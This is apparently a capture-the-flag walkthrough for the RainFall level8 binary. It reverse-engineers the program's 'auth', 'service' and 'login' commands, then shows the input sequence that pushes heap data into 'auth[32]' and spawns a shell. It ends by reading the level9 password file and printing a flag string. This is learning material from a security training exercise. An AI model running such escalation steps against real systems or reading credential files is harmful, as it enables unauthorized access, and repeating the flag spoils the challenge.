 # Level8

## Objective

The goal of Level 9 is to escalate from `level8` to `level9` by abusing how the `level8` binary manages heap allocations. By carefully using the available commands (`auth`, `reset`, `service`, and `login`), we can trigger the program to call `system("/bin/sh")` and gain a shell.

---

## Step 1: Examine the Binary

After switching to `level8`
Running the binary:

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
hello
(nil), (nil)
```

When we use ltrace we can see a printf()
```bash
printf(%p, %p\n, (nil), (nil)(nil), (nil)) = 14;
```

Input is read with `fgets()`.

Then we can try to use info variables,

```bash
(gdb) info variables
All defined variables:
Non-debugging symbols:

0x08049aac  auth
0x08049ab0  service

```
Here we can see that there's two variables and theirs adresses. 
The printf  prints two pointers `(auth, service)`, both initially `nil`.
they're read by fgets and stocked in locol memory at 0x20%esp

---

## Step 2: Reverse Engineer the Commands

Disassembly of `main()` reveals 4 comparaisons to adresses that can be read like this (this is the first one) :

```bash
0x080485b5 <+81>:	je     0x804872c <main+456>
   0x080485bb <+87>:	lea    0x20(%esp),%eax
   0x080485bf <+91>:	mov    %eax,%edx
   0x080485c1 <+93>:	mov    $0x8048819,%eax
   0x080485c6 <+98>:	mov    $0x5,%ecx
   0x080485cb <+103>:	mov    %edx,%esi
   0x080485cd <+105>:	mov    %eax,%edi
   0x080485cf <+107>:	repz cmpsb %es:(%edi),%ds:(%esi)


```
<+87><+91>The part of the main says that 0x20(%esp) refers to fgets() (stdin), then this address is copied in EDX
<+93>After that we load 0x8048819 (using gdb x/s we read `auth` for this address) in EAX,
<+98>ECX is set to 5 (its the number max of caracter comparisons).
<+103><+105> setting registers for cmpsb, ESI is the entry, EDI is the auth string.
<+107> Is similar to strncmp() function, it comp byte by byte the pointed string ESI (input user) and the EDI one ("auth")

Its done for four string and each on them has functionsstarting if the comparison is good.

* `auth <data>` → calls `malloc(4)` and `strcpy()` into the global `auth` pointer.
> Here an object is created and stockes the stdin 
* `reset` → frees the `auth` pointer.
* `service <data>` → calls `strdup()` and copies into the global `service` pointer.
* `login` → if `auth[32] != 0`, it calls `system("/bin/sh")`. Otherwise, it calls `fwrite()`.
> Checks is there's somthing at the ofset, if so it runs the exec syscall.

Thus, the game plan is to get `auth[32]` set to something non-zero.

---

## Step 3: Heap Behavior

Heap allocations are sequential in memory. Testing shows:

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
```

Here `auth` is at `0x804a008` and `service` is exactly 16 bytes later. With padding, we can arrange things so that writing into `service` overflows into `auth[32]`.

---

## Step 4: Exploit Strategy

**SolutionSingle `service` overflow:**

* Create `auth` → allocates 4 bytes.
* Create `service` with a payload long enough to cover the 16-byte padding and reach `auth+32`.

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
serviceabcdefgehijklmnop
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

**End of Level8 Walkthrough**




